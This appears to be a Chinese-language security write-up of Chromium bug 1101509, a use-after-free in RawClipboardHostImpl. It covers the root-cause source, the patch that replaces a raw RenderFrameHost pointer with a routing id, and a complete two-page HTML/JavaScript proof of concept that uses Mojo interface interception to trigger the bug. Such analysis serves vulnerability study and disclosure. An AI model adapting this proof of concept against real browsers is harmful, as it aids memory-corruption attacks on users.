


https://bugs.chromium.org/p/chromium/issues/detail?id=1101509

### Root case
```
class CONTENT_EXPORT RawClipboardHostImpl
    : public blink::mojom::RawClipboardHost {
 public:
  static void Create(
      RenderFrameHost* render_frame_host,
      mojo::PendingReceiver<blink::mojom::RawClipboardHost> receiver);
  RawClipboardHostImpl(const RawClipboardHostImpl&) = delete;
  RawClipboardHostImpl& operator=(const RawClipboardHostImpl&) = delete;
  ~RawClipboardHostImpl() override;

 private:
  RawClipboardHostImpl(
      mojo::PendingReceiver<blink::mojom::RawClipboardHost> receiver,
      RenderFrameHost* render_frame_host);

  // mojom::RawClipboardHost.
  void ReadAvailableFormatNames(
      ReadAvailableFormatNamesCallback callback) override;
  void Read(const base::string16& format, ReadCallback callback) override;
  void Write(const base::string16& format, mojo_base::BigBuffer data) override;
  void CommitWrite() override;

  bool HasTransientUserActivation() const;

  mojo::Receiver<blink::mojom::RawClipboardHost> receiver_;
  ui::Clipboard* const clipboard_;  // Not owned.
  std::unique_ptr<ui::ScopedClipboardWriter> clipboard_writer_;
  // Not owned. Raw pointer usage is safe here because RawClipboardHostImpl is
  // per-frame, so |render_frame_host_| is guaranteed to outlive the
  // RawClipboardHostImpl.
  RenderFrameHost* const render_frame_host_; //[1]
};
```

在render绑定RawClipboardHost服务时，RawClipboardHostImpl对象使用了render_frame_host [2]处。
```
void RawClipboardHostImpl::Create(
    RenderFrameHost* render_frame_host,
    mojo::PendingReceiver<blink::mojom::RawClipboardHost> receiver) {
  DCHECK(render_frame_host);

  ......
  
  auto* host = new RawClipboardHostImpl(std::move(receiver), render_frame_host); //[2]
  host->receiver_.set_disconnect_handler(base::BindOnce(
      [](RawClipboardHostImpl* host) {
        base::SequencedTaskRunnerHandle::Get()->DeleteSoon(FROM_HERE, host);
      },
      host));
}
```
这里存在一个问题，RawClipboardHostImpl对象的生命周期独立于render_frame_host，在这里他假设了render_frame_host生命周期要长远RawClipboardHostImpl，导致出现了render_frame_host被删除，RawClipboardHostImpl对象依旧存在的现象。

此时RawClipboardHostImpl使用已失效的render_frame_host指针，就会导致uaf的出现[3]。

```
bool RawClipboardHostImpl::HasTransientUserActivation() const {
  // Renderer process should already check for user activation before sending
  // this request. Double check in case of compromised renderer.
  // mojo::ReportBadMessage() is not appropriate here, because user activation
  // may expire after the renderer check but before the browser check.
  return render_frame_host_->HasTransientUserActivation(); [3]
}
```

### patch


https://chromium-review.googlesource.com/c/chromium/src/+/2411673




这里他将render_frame_host ptr修改为了render_frame_routing_id_。

通过这样的方式就可以起到检测render_frame_host的效果，当render_frame_host被删除，自然也就无法通过id获得impl，也就避免了uaf。


### poc

poc还是常见的写法，关于拦截器的相关知识可以移步ctf中mojo那题的笔记

```
<html>
        <script src="mojo_bindings.js"></script>
        <script src="third_party/blink/public/mojom/clipboard/raw_clipboard.mojom.js"></script>
    <body></body>
    <script>
    function allocateRFH(src) {
        var iframe = document.createElement("iframe");
        iframe.src = src;
        iframe.style = "position: absolute; height: 100%; border: none";
        document.body.appendChild(iframe);

        return iframe;
    }

    function deallocateRFH(iframe) {
        document.body.removeChild(iframe);
    }

    var kPwnInterfaceName = "pwn";
    async function trigger(){
        return new Promise((r)=>{
        frame = allocateRFH("poc_child.html");
        let interceptor = new MojoInterfaceInterceptor(kPwnInterfaceName, "process");
        interceptor.oninterfacerequest = function(e) {
            interceptor.stop();
            raw_clipboard_ptr = new blink.mojom.RawClipboardHostPtr(e.handle);
            deallocateRFH(frame);
            r(raw_clipboard_ptr);
        }
        interceptor.start();
        });
    }

    async function main(){

        var raw_clipboard_ptr = await trigger();

        await raw_clipboard_ptr.readAvailableFormatNames();

    }
    main();
    </script>
</html>


<html>
        <script src="mojo_bindings.js"></script>
        <script src="third_party/blink/public/mojom/clipboard/raw_clipboard.mojom.js"></script>
        <script src="third_party/blink/public/mojom/clipboard/clipboard.mojom.js"></script>
    <button onclick="main()" style="width:300px;height:100px;font-size: 50px;" value="clickme">clickme</button>
    <script>
    function sleep(ms) {
        return new Promise(resolve => setTimeout(resolve, ms));
    }
    var kPwnInterfaceName = "pwn";
    var IntervalID = null; 
    function main(){
        if(!navigator.userActivation.isActive) return;
        navigator.permissions.request({name: 'clipboard-read'}, {name : 'clipboard-write'}).then(()=>{
            console.log("hello : "+navigator.userActivation.isActive);
            var pipe = Mojo.createMessagePipe();
            Mojo.bindInterface(blink.mojom.RawClipboardHost.name, pipe.handle1, "context", true);
            Mojo.bindInterface(kPwnInterfaceName, pipe.handle0, "process");
        });
    }
    </script>
</html>
```


